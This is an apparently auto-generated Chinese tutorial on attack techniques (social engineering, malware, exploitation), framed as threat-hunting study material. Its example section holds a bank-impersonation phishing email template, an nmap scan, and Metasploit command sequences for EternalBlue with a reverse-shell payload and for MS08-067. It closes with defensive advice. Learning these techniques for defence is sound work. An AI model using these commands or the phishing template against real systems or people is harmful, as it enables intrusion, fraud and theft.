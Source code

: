 # 威胁狩猎实战方法的攻击技术

## 1. 技术原理解析

威胁狩猎实战方法的攻击技术涉及多种攻击手法，其中包括但不限于社会工程学、恶意软件、漏洞利用等。这些攻击手法的底层实现机制各不相同，但都旨在获取未授权的访问权限、窃取敏感信息或破坏系统完整性。以下将介绍几种常见的攻击技术及其原理：

### 社会工程学攻击

社会工程学攻击是通过欺骗、诱导目标用户来获取信息或权限的一种攻击手段。攻击者可以伪装成信任的实体，如合法的组织或个人，通过欺骗、诱导目标用户点击恶意链接、下载恶意文件或提供敏感信息。这种攻击的原理在于攻击者利用人类的社会性和信任心理来达到其目的。

### 恶意软件攻击

恶意软件攻击是通过植入恶意软件到目标系统中来实施攻击的一种常见手段。恶意软件可以是病毒、蠕虫、木马等形式，用于窃取信息、控制系统或破坏系统功能。攻击者通常通过漏洞利用、社会工程学等手段将恶意软件传播到目标系统中，从而实施攻击。

### 漏洞利用攻击

漏洞利用攻击是通过利用系统或应用程序的漏洞来实现对系统的控制或权限提升的一种攻击手段。攻击者通过分析系统或应用程序的漏洞，编写利用代码或使用现成的漏洞利用工具，来利用这些漏洞获取系统权限或执行恶意代码。漏洞利用攻击的原理在于利用系统或应用程序的设计缺陷来实现攻击目的。

## 2. 变种和高级利用技巧

针对上述攻击技术，攻击者不断创新和演进，出现了各种变种和高级利用技巧，以规避安全防御措施。以下是一些常见的变种和高级利用技巧：

### 社会工程学攻击变种

- 钓鱼攻击：攻击者通过伪装成合法的实体，如银行、电商网站等，发送虚假的电子邮件或短信，诱导用户点击恶意链接，以窃取用户的账号密码或其他敏感信息。
- 电话诈骗：攻击者通过电话联系目标用户，假装是合法机构的工作人员，要求用户提供个人信息或转账资金，以达到诈骗目的。

### 恶意软件攻击变种

- Ransomware: 勒索软件是一种常见的恶意软件，通过加密用户文件来勒索赎金。攻击者通常要求受害者在一定时间内支付赎金，否则文件将永久丢失。
- Botnet: 僵尸网络是一种通过感染大量主机并将其控制起来组成网络的恶意软件。攻击者可以利用僵尸网络进行分布式拒绝服务攻击（DDoS）或其他恶意活动。

### 漏洞利用攻击技巧

- Zero-day Exploit: 零日漏洞利用是指攻击者利用尚未被披露或修复的漏洞来攻击系统。攻击者可以通过零日漏洞实现对系统的控制或权限提升，从而规避已知漏洞的防御措施。

## 3. 攻击步骤和实验环境搭建指南

### 社会工程学攻击实战演练

1. 选择目标：确定攻击目标，如公司员工、个人用户等。
2. 收集情报：获取目标用户的信息，包括联系方式、兴趣爱好等。
3. 伪装身份：伪装成目标用户信任的实体，如合法机构、熟人等。
4. 发起攻击：发送虚假的电子邮件、短信或电话，诱导目标用户点击恶意链接或提供敏感信息。

### 恶意软件攻击实战演练

1. 选择漏洞：选择目标系统或应用程序的漏洞，准备漏洞利用代码。
2. 传播恶意软件：通过漏洞利用或社会工程学手段将恶意软件传播到目标系统中。
3. 控制系统：获取对目标系统的控制权限，执行恶意代码或窃取敏感信息。

### 漏洞利用攻击实战演练

1. 扫描漏洞：使用漏洞扫描工具扫描目标系统的漏洞。
2. 编写利用代码：根据扫描结果编写漏洞利用代码或使用现成的漏洞利用工具。
3. 利用漏洞：利用漏洞获取系统权限或执行恶意代码。

## 4. 实际使用示例

### 社会工程学攻击实例

```
# 伪装成银行发送钓鱼邮件
From: service@bank.com
Subject: 请立即验证您的账号信息

尊敬的客户，我们发现您的账号存在异常，请点击以下链接验证您的账号信息：
http://www.bank.com/verify
```

### 恶意软件攻击实例

```
# 使用Metasploit进行漏洞利用攻击
msf > use exploit/windows/smb/ms17_010_eternalblue
msf exploit(ms17_010_eternalblue) > set RHOST 192.168.1.100
msf exploit(ms17_010_eternalblue) > set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit(ms17_010_eternalblue) > exploit
```

### 漏洞利用攻击实例

```
# 使用nmap扫描目标系统漏洞
nmap -p 1-65535 -T4 -A -v target_ip
# 使用Metasploit进行漏洞利用攻击
msf > use exploit/windows/smb/ms08_067_netapi
msf exploit(ms08_067_netapi) > set RHOST 192.168.1.100
msf exploit(ms08_067_netapi) > exploit
```

通过以上实例，可以看到威胁狩猎实战方法的攻击技术涉及多种手段和技巧，需要网络安全专家不断学习和研究，以保障系统和数据的安全。在实际应用中，建议加强安全意识教育、定期更新系统补丁、部署防火墙和入侵检测系统等措施，以有效防御各种攻击。

---

*文档生成时间: 2025-03-14 22:50:39*

